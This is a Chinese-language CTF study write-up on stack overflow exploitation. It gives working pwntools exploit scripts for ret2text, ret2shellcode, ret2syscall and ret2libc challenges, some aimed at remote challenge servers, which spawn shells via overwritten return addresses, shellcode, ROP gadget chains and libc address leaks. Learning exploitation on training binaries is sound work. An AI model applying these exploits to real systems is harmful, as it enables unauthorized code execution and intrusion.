# 栈溢出

# 栈

栈是一种数据结构，遵循后进先出的原则(Last in First Out)，主要有压栈（push）与出栈（pop）两种操作  
eax, ebx, ecx, edx, esi, edi, ebp, esp等都是X86 汇编语言中CPU上的通用寄存器的名称，是32位的寄存器。如果用C语言来解释，可以把这些寄存器当作变量看待。  
在栈中，esp保存栈帧的栈顶地址，ebp保存栈帧的栈底地址

**程序的栈是从进程地址空间的高地址向低地址增长的**

# 栈溢出原理

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。

栈溢出的前提是：程序向栈上写入数据；数据的长度不受控制

最简单的栈溢出就是通过溢出，覆盖程序的返回地址，将返回地址覆盖为system('/bin/sh')的地址

# 简单利用

通过CTFHUB技能树中的ret2text进行栈溢出

首先下载附件，利用checksec检查程序开启的保护



该程序未开启保护，并且是amd的64位程序，拖入ida进行静态分析



阅读代码发现程序调用了gets函数，gets本身是一个危险函数，它不会对字符串的长度进行校验，而是以回车判断输入是否结束，存在栈溢出漏洞

shift+f12发现程序中有可执行后门system('/bin/sh')



那么溢出ret到执行system('/bin/sh')的地址即可，双击/bin/sh，ctrl+x追踪到/bin/sh的地址为0x04007B8



查看v4，发现设定的v4长度为0x70，同时由于是64位系统，需要+8字节覆盖掉ebp（32位系统+4字节覆盖掉ebp）



接下来就可以编写exp

```python
from pwn import * 
p = remote("challenge-5ed622b3b63a7e82.sandbox.ctfhub.com",28525)
#/bin/sh的地址
shell_addr = 0x04007B8
#生成0x70+8个垃圾数据覆盖参数和ebp，然后把/bin/sh的地址写入返回地址
payload = b'a' * (0x70+8) + p64(shell_addr)  
p.sendline(payload)
p.interactive()

```



所以进行栈溢出需要两个重要的步骤：一是寻找危险函数（ gets、scanf、vscanf、sprintf、strcpy、strcat、bcopy等）；二是确定填充长度，计算要操作的地址与要覆盖的地址的距离

# 没有后门时的栈溢出利用

ret2text中拿到shell是通过将eip覆盖为system("/bin/sh")的地址，如果程序中没有后门，一般可以通过以下几种方式利用

## ret2shellcode

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。利用方式是将shellcode写入程序，然后利用栈溢出将eip的返回地址覆盖为shellcode的地址，进而让程序执行shellcode。这就需要程序中存在一个位置能够让我们写入shellcode并执行（比如bss段）。

以NewStarCTF中的ret2shellcode为例

将附件拖入IDA，注意到`mmap`​函数，它是向文件映射去申请一块内存，是动态库，共享内存等映射物理空间的内存。



通过pwndbg可以看到，映射的区域有可执行权限



而且mmap指定了buf的起始地址为0x233000，因此可以利用第一个read向buff中写入shellcode，再通过第二个read进行栈溢出，将返回地址覆盖为0x233000

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
#用pwntools生成shellcode
shellcode = asm(shellcraft.sh())
p = remote('219.219.61.234',49544)
p.recvline()
#把shellcode写入buf
p.sendline(shellcode)
p.recvline()
#计算偏移，栈溢出到buf
payload = b'a' * (0x30+8) + p64(0x233000)
p.sendline(payload)
p.interactive()

```

## ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。

系统调用是指由操作系统提供的供所有系统调用的程序接口集合;用户程序通常只在用户态下运行，当用户程序想要调用只能在内核态运行的子程序时，操作系统需要提供访问这些内核态运行的程序的接口，这些接口的集合就叫做系统调用，简要的说，系统调用是内核向用户进程提供服务的唯一方法。

用户程序通过系统调用从用户态（user mode）切换到核心态（kernel mode ），从而可以访问相应的资源。

要使用系统调用，需要通过汇编指令 `int 0x80`​ 实现，用系统调用号来区分入口函数。

以CTFWIKI中的 [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)为例

首先检测程序开启的保护



32位，开启了NX保护，拖入IDA查看源代码



可以看到依然是gets函数的栈溢出，但是由于程序本身没有后门，并且无法自己写入shellcode来获得shell，这是就要用到系统调用。

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们再执行 int 0x80 就可执行对应的系统调用。这里可以用`execve("/bin/sh",NULL,NULL)`​这个系统调用来获取shell，其中execve 对应的系统调用号为0xb

由于程序是32位的，按照`execve("/bin/sh",NULL,NULL)`​,令eax为execve的系统调用号即0xb，第一个参数ebx指向/bin/sh，ecx和edx为0

而我们如何控制这些寄存器的值呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这里需要用到ROPgadget寻找gadget



先找到控制eax的gadget，这几个都可以控制eax，这里使用第二个

再找控制ebx的



以上都可以使用，由于0x0806eb68可以控制三个寄存器，所以选用这个地址

然后找到/bin/sh的地址



以及int 0x80的地址



```python
from pwn import *
p = process('./rop')
pop_eax_ret = 0x080bb196
pop_ebx_ecx_edx_ret = 0x0806eb90
sh = 0x080be408
int_0x80 = 0x08049421
payload = b'a' * 112 + p32(pop_eax_ret) + p32(0xb) + p32(pop_ebx_ecx_edx_ret) + p32(0) + p32(0) + p32(sh) + p32(int_0x80)
p.sendline(payload)
p.interactive()

```

## ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

根据NewStarCTF的ret2libc进行学习

首先下载附件，得到一个程序以及程序用到的libc，将程序拖入IDA分析



很明显fgets处存在栈溢出，但通过寻找，没有发现可利用的函数



根据动态链接和延迟绑定技术,运用任意地址读写技术对某个函数的GOT表进行改写,使其指向想要执行的危险函数[如`system`​ , `execve`​函数]

操作系统通常使用动态链接的方法来提高程序运行的效率。那么在动态链接的情况下，程序加载的时候并不会把链接库中所有函数都一起加载进来，而是程序执行的时候按需加载，也就是控制执行 libc（对应版本）中的函数，通常是返回至某个函数的plt处或者函数的具体位置 (即函数对应的got表项的内容)。一般情况下，我们会选择执行 system(“/bin/sh”)（或者execve("/bin/sh",NULL,NULL)），故而此时我们需要知道system函数的地址

所以首先要做的是通过栈溢出，泄露出puts真实的地址，然后计算真实地址与libc中puts地址的偏移，进而计算出system与/bin/sh的地址，同时还要获取rdi、ret与main函数的地址



可以使用pwndbg寻找main函数的起始地址



```python
from pwn import *

elf = ELF('./pwn')
libc = ELF('./libc-2.31.so')
#p = process('./pwn')
p = remote('node4.buuoj.cn',25948)

#puts的plt表与got表地址
puts_plt = elf.plt['puts'] 
puts_got = elf.got['puts']

#libc中puts、system、/bin/sh的地址
libc_puts = libc.symbols['puts']
libc_system = libc.symbols['system']
libc_sh = libc.search(b'/bin/sh').__next__()

pop_ret_rdi = 0x400753
main = 0x400698
ret = 0x40050e

p.recvuntil(b'time?\n')
#64位的payload构成：栈溢出+pop rdi地址+泄露函数的got表地址+泄露函数的plt地址+ret指令（这里ret回main函数是为了跳回程序开头重新执行程序）
payload = b'a' * (0x20+8) + p64(pop_ret_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

#直到7f出现的位置作为终点，开始往前读6个字节数据，然后再8字节对齐，不足8位补\x00
#\x7f是64位程序函数地址的默认开头，-6就是从倒数第6个字节开始取,在内存中是倒着放的
#32位u32(r.recv()[0:4])
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) #puts函数的真实地址
#偏移
base = puts_addr - libc_puts
#真实的system和/bin/sh地址
system_addr = base + libc_system
sh_addr = base + libc_sh

payload = b'a' * (0x20+8) + p64(ret) + p64(pop_ret_rdi) + p64(sh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()

#也可以不获取main函数地址，将exp分成两个py脚本，获取main函数地址并ret回去只是为了在一个脚本里执行两次程序

```

栈溢出的中高级ROP会在其它二进制漏洞学习完之后再开始学习


